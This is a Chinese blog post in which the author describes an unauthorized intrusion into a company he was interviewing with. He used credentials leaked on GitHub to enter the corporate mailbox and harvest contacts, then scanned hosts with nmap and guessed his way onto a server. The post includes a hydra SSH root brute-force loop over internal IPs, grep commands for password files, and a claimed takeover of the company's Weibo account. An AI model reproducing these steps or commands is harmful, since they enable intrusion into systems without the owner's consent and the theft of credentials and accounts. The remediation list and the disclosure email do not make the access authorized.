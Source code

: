 ```yaml
---
layout: post
title: 实习之登堂入室
categories: HowTo
tags: 实习笔记
---
```


# 但行好事，莫问前程
> 解决方案

* <font color="red"> 删除Github上的敏感配置信息(包括但不限于微信Appkey,secert,Email账号，mlab上的DB配置，产品AppKey,Secert, ELK服务器账号密码等信息且不只是一个配置文件中出现)或着撤下Github上所有的公司产品代码 </font>
* <font color="red">更改邮箱密码为复杂密码(但不止包括邮箱，其他可被搜索并和公司相关联的其他平台账号)，更改服务器为无规律密码(而非公司名加服务器功能加ip前几位构成)，</font>
* <font color="red">更新数据库中已经暴露的数据。</font>
* <font color="red">加强服务器配置，例如防SSH爆破，适当清理bash的history，设置白名单访问等</font>
* <font color="red"> 重要信息不可放置到外网上。</font>


#### 这是一次找实习之余，偶然接到这家公司的面试。出于对目标公司的好奇。当然只是作为对所中意公司的了解(之前是一点也不了解)，进行了小小的测试。目前所有已测试数据均已删除。不过经过此次测试发现越来越喜欢这家公司了。


1.故事的开始。

去官网看了一下，发现没有什么实质性的内容，而且不给注册。。好坑，不开心。而且只能从微信体验公司宣传的功能。于是抓包，看到API，猜了几次。觉得十分有趣。后来就去搜索引擎 `site:target.com` 不出意外发现了其他的相关域名。而且测试版的网站竟然还没下线(允许注册登录)。在这个网站注册了账号，尝试了一下基本功能，算是有了初步的了解。不过发现一个很不好的地方，就是API的设计，基本上全是用的GET，从后台取数据的时候，URL上一大串参数。而根据REST设计风格来看，其实这几个功能都应该是通过POST的方式，并且将请求的数据放到Body里比较好。 

2.Github上的数据泄露

一边从搜索引擎得到网站一些信息，然后去github尝试了一下，看看有没有人上传过代码。不尝试不知道，发现信息泄露十分严重。数个员工均在github上公开了代码。其中配置文件包括服务器，企业邮箱，db，ELK信息等。
拿出旁注工具，旁注得到域名
![旁注得到域名](../image/hackit/pangzhu_1.jpg)

同时登录企业邮箱，邮箱中并无重要信息。但是Get到了部分通讯录。有了通讯录就方便了很多。通讯录是Json格式的，看起来很费事，所以转成csv好点。

```shell
awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat tt.txt  >tempfile		   #直接合并数据
sed -n '2,6p' tempfile			#取第姓名行到第邮箱行
sed '2,3d' tempfile				#删除姓名到邮箱中的多余的二行。
cat tempfile | sed 's/,/\n/g'	#以逗号进行的行列转置，但是转置之后全部变成一列了
paste name.txt mail.txt  | awk '{printf "%s %s %s \n", $1 ,",",$2 }' > ConnectInfo.csv 					#两个不同的文件合并成两列到一个文件				  #
```

其实还可以用csvkit，csvkit的话一行命令就行了就`json2csv xx.json xx.csv`可以转成csv格式了。

而另一边旁注得到的信息需要进行一下整理，看看是不是有多个站点共同使用一个IP上的。不同工具不同字典大小，可以得到不同的结果。
> 使用
`awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat IpInfo.txt`

得到整理好的数据，可以看到有三个ip上同时每个上面部署了两个站点。当然后来换了个字典，发现其实不止这么多二级域名，一共有16个的样子吧。
![整理数据](../image/hackit/pangzhu_2.jpg)

这边得到了iplist就应该开始进行扫描了。使用 `nmap -A -Pn -iL IPlist.txt > IPScanresult.txt` 同时还有一个进行URL的扫描。当然这个时候我还在搜索信息。发现其使用一个XX部落，通过密码猜测进入。然后发现一个十分重要的东西。就是内网映射服务器的账号密码在那记载着呢。

![进来了](../image/hackit/RUKOUVPS.png)
进来之后发现其实还部署着docker，nginx，ELK等服务，但是这台服务器的性能上是真一般，而且网速超级慢。

3.服务器之上
> 进了服务器，开始看一下路由表映射，然后查看历史记录，在整个目录下递归搜索含有'pwd','password','xxx'的文件。查看历史记录发现`grep -rnw /home/ -e 'pwd'`



```shell
iplist="10.10.241.52
10.10.177.183
10.10.241.52
10.10.177.183
10.10.255.95
10.10.239.183
172.17.0.2
10.10.255.1
172.17.0.2
10.10.255.1
10.10.220.103
10.10.255.92
10.10.200.143
10.10.166.86
10.10.255.93
10.10.84.141
10.10.200.122
10.10.0.1
10.10.255.90
10.10.200.4
10.10.255.2
10.10.255.200
10.10.255.250
10.10.232.79"
 
echo "===Begin TEST==="
for ip in $iplist;
do
          hydra $ip -s 50001 ssh -l root -P passlist.txt
done
```

OVER_by_2016_11_12

现在是第二天早上11点(周日)：刚写完邮件通知对方。

ps:其他过程不想写了，昨天搞到将近两点，本来还打算看看面试题呢。不过也没什么可看的。哎，通知了对方。有的人说不要，有的人说要。还是，但行好事，莫问前程。希望ok。

![通知对方](../image/hackit/attention.jpg)

ps2:前几天和堂姐聊天，说要辞实习，重新找一份。姐说：年轻人就是好。是啊，年轻，棱角未平，阳光正好。现在我又佩服我的老姐了，能拿下全马，佩服你。


update:14号上午，还是不想看面试题。昨天发邮件通知之后，也没人回复个谢谢。邮箱密码虽然改了，但服务器还是没有修改。这次又测到4个DB服务器的账号密码。

![DBMSG](../image/hackit/msg1.jpg)

问了下HR面试我的面试官名字，找到之后，微博,github,知乎。发现我们两个的学习路线差不多。不知道今天下午的面试会怎么样？OK,嘿嘿。
update:14号上午11:00，好吧官方微博账号到手。

![weibohh](../image/hackit/weibo.png)

